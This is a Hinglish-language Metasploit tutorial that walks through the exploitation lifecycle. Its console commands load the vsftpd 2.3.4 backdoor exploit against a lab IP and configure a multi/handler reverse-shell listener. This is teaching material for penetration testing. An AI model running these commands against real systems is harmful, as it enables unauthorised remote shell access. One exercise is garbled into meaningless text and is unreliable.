

# Topic 25 - Metasploit Basic Exploitation Lifecycle

Metasploit Framework ke andar basic exploitation execute karne ka ek standard lifecycle workflow hota hai. HackerSploit tutorial ke principles ke according, exploitation and access phase ko safely aur structured way mein execute karne ke liye 5 core phases follow kiye jate hain.

Is guide mein hum basic exploitation pipeline, options configuration parameters, aur connection verification steps ko detail mein samjhenge.

---

## 🗺️ The Exploitation Lifecycle Pipeline



---

## 1. The 5 Core Phases of Exploitation

### Phase 1: Reconnaissance & Version Identification
Exploitation ka sabse pehla step target ki details nikalna hai. Jab tak hume target system par chal rahe services ka **Exact Version** nahi pata hota, tab tak hum exploit choose nahi kar sakte.
* **Example:** Service audit scans (jaise FTP port 21 ya SMB port 445 scans) ke zariye remote software banner grab kiya jata hai (e.g. `vsftpd 2.3.4`).

### Phase 2: Search & Module Selection
Vulnerability identify hone ke baad, Metasploit module database se compatible exploit search aur load kiya jata hai.
* **Command:** `search <service_name_version>` (e.g. `search vsftpd`)
* **Load Module:** `use exploit/<path_name>`

### Phase 3: Configuration & Datastore Variables
Exploit load hone ke baad target aur local parameters configure kiye jate hain.
* **`RHOSTS` (Remote Host):** Target machine ki IP address.
* **`RPORT` (Remote Port):** Target system ka port.
* **`PAYLOAD`:** Jo shell/connection code target par execute karna hai.
* **`LHOST` / `LPORT`:** Attacker system (Kali) ki IP aur listening port.

### Phase 4: Pre-Exploit Verification (`check`)
Active exploit run karne se pehle target system ki vulnerability status verify karna recommended hai taaki target server crash na ho.
* **Command:** `check`
* **Result:** Agar system vulnerable hai, toh status `The target is vulnerable` print hota hai. *(Note: Sabhi exploit modules check command support nahi karte).*

### Phase 5: Execution & Connection Handling
Variables set hone ke baad final trigger run kiya jata hai.
* **Command:** `exploit` ya `run`
* **Result:** Exploit target buffer security bypass karke payload load karega aur terminal par successful active session open output return ho jayega.

---

## Part 2: Bhar-Bhar Ke Practicals (Basic to Advance)

### Practical 1: Navigating and Inspecting Module Datastores (Basic)
Exploit load karke default options parameters view karna:

#### Step 1: Exploit load karein:
```text
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
```
#### Step 2: Options details verify karein:
```text
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options
```

---

### Practical 2: Configuring Exploit Parameters (Basic)
Parameters set karke check status execute karna:

#### Step 1: Target IP set karein:
```text
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.98.129
```
#### Step 2: Target parameters aur check checks confirm karein:
```text
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options
```

---

### Practical 3: Using Multi/Handler for Standalone Exploits (Advance)
Standalone bin format files connections accept karne ke liye generic listener configure karna:

#### Step 1: Load handler:
```text
msf6 > use exploit/multi/handler
```
#### Step 2: Set payload parameters compatible options:
```text
msf6 exploit(multi/handler) > set PAYLOAD linux/x86/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.98.128
msf6 exploit(multi/handler) > set LPORT 4444
```
#### Step 3: Run background listener:
```text
msf6 exploit(multi/handler) > exploit -j
```

---

## Part 3: Pro-Tips & Evasion Realities

### 1. Exploit vs Run Command
* Metasploit console par **`exploit`** aur **`run`** commands identical hain. Dono module code execution start karti hain.
* **Pro-Tip:** Background listeners start karte waqt humesha `exploit -j` ya `run -j` use karein taaki terminal active jobs process controls ke liye free rahe.

---

## 📝 Practice Exercises (Hinglish Tasks)

1. **Exercise 1 (Recon Importance):**  
   Exploitation phase shuru karne se pehle target service ka exact version banner search karna kyun mandatory hota hai?

2. **Exercise 2 (Check command benefit):**  
   Exploit execution se pehle **`check`** command run karne ka primary benefit kya hai?

3. **Exercise 3 (Identify RHOSTS vs LHOST):**  
   Metasploit datastore parameters mein `RHOSTS` aur `LHOST` variables ke network roles mein difference kya hai?

4. **Exercise 4 (Show targets mapping):**  
   Kisi load exploit module ke compatible OS targets details verify karne ki command kya hai?

5. **Exercise 5 (Default Payload loading):**  
   Exploit load karte waqt agar hum custom payload select na karein, toh Metasploit defaults select kaise karta hai?

6. **Exercise 6 (Explain exec: commands):**  
   Metasploit prompt par bina active session ke direct OS terminal command shell run criteria indicator `[*] exec:` kya define karta hai?

7. **Exercise 7 (Port conflict cleanup):**  
   Socket binding conflict errors releases check release checks setups.

8. **Exercise 8 (Session backgrounding shortcut):**  
   Active shell sessions loop ko terminal destroy kiye bina background mein send karne ke keyboard shortcuts details kya hain?
